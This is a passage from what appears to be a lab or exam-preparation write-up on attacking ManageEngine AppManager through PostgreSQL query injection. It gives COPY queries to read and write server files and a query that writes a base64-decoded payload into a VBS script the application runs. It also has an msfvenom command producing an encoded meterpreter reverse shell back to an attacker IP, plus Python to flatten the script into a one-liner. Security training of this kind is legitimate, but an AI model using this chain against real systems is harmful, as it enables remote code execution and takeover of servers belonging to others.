 In the above example query, not only are we checking to see if we have query
execution, we're also checking to see if the current user we're executing
queries as has `superuser` privileges.

## File system interactions

Attackers want to immediately interact with a target's file system - that's
where all the important stuff is! With the right permissions, reading and
writing to disk in PostgreSQL is pretty straight forward. Here's a query to read
content from disk into a table:

```sql
COPY <table_name> from <file_name>
```

And here's a query to write content to disk from a table:

```sql
COPY <table_name> to <file_name>
```

And here's a query to write a string constant to disk:

```sql
COPY (select $$awae$$) to <file_name>
```

Let's get even crazier. Instead of just writing tiny strings to disk, we'll
write whole payloads. We accomplish this by `base64` encoding our payloads and
decoding them using PostgreSQL before writing to disk. Here's an example:

```sql
copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

In this example, we've already encoded our payload with `base64`. We send this
query to the target, and at runtime PostgreSQL decodes the payload from
`base64`, and then converts the bytes to a string using `utf-8` encoding, and
then finally writes the VBS script to a disk.

We can quickly generate reverse shell VBS scripts using `msfvenom` as such:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```

One minor inconvenience with `msfvenom`, it doesn't create one-liner VBS
scripts. To get around this, we can convert the VBS script to a one-liner with
the following Python:

```python
def convert_to_oneliner(self, vbscript) -> str:
    return (
        open(vbscript, "rt")
        .read()
        .replace("\r", "")
        .replace("\n", ":")
        .replace("\t", " ")
        .replace("& _ :", "& ")
        .replace("& _:", "& ")
        .encode("utf-8")
    )
```
